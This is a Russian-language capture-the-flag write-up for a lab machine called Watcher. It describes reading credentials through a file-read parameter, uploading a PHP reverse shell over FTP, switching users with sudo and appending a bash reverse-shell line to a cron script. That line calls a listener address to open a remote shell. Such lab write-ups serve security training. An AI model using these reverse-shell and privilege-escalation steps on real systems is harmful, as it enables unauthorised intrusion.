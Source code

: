 # Watcher WriteUp (Medium)✅

Перейдя по ip адресу, мы видим страницу с подставками (?) для посуды

<figure><img src="../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Проверив файл **robots.txt**, мы обнаруживаем 2 файла

<figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

В файле **flag\_1.txt** находится первый флаг🚩

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Во втором файле находится записка, но мы не можем прочитать её содержимое, просто перейдя в него с помощью адресной строки

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Нажав на картинку на основной странице, в адресной строке появляется html-запрос, используя его, прочитаем содержимое файла **secret\_file\_do\_not\_read.txt**

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

В данной записке находится логин и пароль для подключения по протоколу ftp&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Используя логин и пароль из записки, подключаемся к машине и скачиваем файл **flag\_2.txt**

<figure><img src="../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

Выводим содержимое данного файла и получаем второй флаг🚩

<figure><img src="../.gitbook/assets/image (2) (4).png" alt=""><figcaption></figcaption></figure>

Далее нам понадобится **php\_reverse\_shell**. Используя **ftp** соединение, загружаем шелл в директорию **/files**, а затем, подключив слушатель, создаем **html-запрос**, в котором обращаемся к файлу с шеллом, указав полный путь до него&#x20;

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Отправить данный запрос нужно после поключения слушателя</p></figcaption></figure>

Перейдя в каталог **/var/www/html** мы можем найти папку **more\_secrets\_a9f10a**

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

В ней и находится текстовый файл с третьим флагом🚩

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Четвертый флаг находится в директории toby, но от лица www-data у нас нет прав, чтобы его узнать

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

С помощью команды `sudo -l` мы выяснили, что от лица пользователя **toby** мы можем вывести содержимое файла, поэтому, используя команду `sudo -u toby /bin/bash` меняем пользователя на **toby** и выводим четвертый флаг🚩

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Записка **note.txt** намекает нам, что в папке **jobs** находится скрипт, который выполняется в определенный период времени (с помощью инструмента **cron**)

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Добавив в него строку с **bash\_reverse\_shell'ом** с помощью команды `echo 'bash -c "bash -i >& /dev/tcp/10.17.5.130/5555 0>&1''' >>` [`cow.sh`](https://vk.com/away.php?to=http%3A%2F%2Fcow.sh\&cc\_key=) и подключив слушатель, получаем оболочку уже от лица пользователя **mat**, в директории которого находится пятый флаг🚩

<figure><img src="../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>
